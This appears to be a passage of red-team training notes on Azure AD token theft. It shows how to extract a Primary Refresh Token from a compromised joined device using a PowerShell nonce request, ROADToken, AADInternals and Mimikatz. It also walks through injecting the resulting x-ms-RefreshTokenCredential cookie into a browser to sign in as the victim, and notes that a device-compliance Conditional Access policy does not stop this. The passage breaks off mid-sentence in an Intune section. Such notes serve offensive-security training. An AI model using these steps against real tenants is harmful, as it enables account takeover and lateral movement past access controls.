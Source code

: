 #### Azure VMs - PRT

- If we compromise an Azure AD joined (or Hybrid joined) machine, it is possible to extract PRT and other keys for a user.
- For Azure AD Registered machine, PRT is issued if a user has added a secondary work account to the device.

#### Lateral Movement - Pass-the-PRT
- If we have access to a PRT, it is possible to request access tokens for any application.
- Chrome uses BrowserCore.exe to use PRT and request PRT cookie for SSO experience.
- This PRT cookie - ```x-ms-RefreshTokenCredential``` - can be used in a browser to access any application as the user whose PRT we have.

#### Lateral Movement - Extracting PRT

- Azure AD makes use of nonce for request validation. We need to request a nonce to extract PRT:
```
$TenantId = "2d50cb29-5f7b-48a4-87ce-fe75a941adb6"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"

$Params = @{
"URI"    = $URL "Method" = "POST"
}

$Body = @{
"grant_type" = "srv_challenge"
}

$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
```

#### Lateral Movement - Extracting PRT


- We can extract PRT by using the below tools in a session of the target Azure AD user:
- ROADToken
```C:\AzAD\Tools\ROADToken.exe <nonce>```
- AADInternals
```Get-AADIntUserPRTToken```

- We could also use Mimikatz or its variants (like pypykatz) to extract the PRT and other secrets (Session Key and Clear key).

Please note that in the lab, we are using SessionExecCommand to run ROADToken in context of the user Michael Barron.

#### Lateral Movement - Pass-the-PRT

- Once we have the PRT cookie, copy the value from previous command and use it with Chrome web browser
- Open the Browser in Incognito mode
- Go to https://login.microsoftonline.com/login.srf
- Press F12 (Chrome dev tools) -> Application -> Cookies
- Clear all cookies and then add one named `x-ms-RefreshTokenCredential` for https://login.microsoftonline.com and set its value to that retrieved from AADInternals
- Mark HTTPOnly and Secure for the cookie
- Visit https://login.microsoftonline.com/login.srf again and we will get access as the user!
-  Note that a location based Conditional Access Policy would block Pass-the-PRT whereas a “require compliant and/or Azure AD joined device” policy is bypassed.

## Device Management - Intune
- Intune is a Mobile Device Management (MDM) and Mobile Application Management (MAM) service.
- Intune needs an Enterprise Mobility + Security E5 license.
- For devices to be fully managed using Intune, they need to be enrolled.
- Enrolled devices (IsCompliant or Compliant set to Yes in Azure Portal) allow
```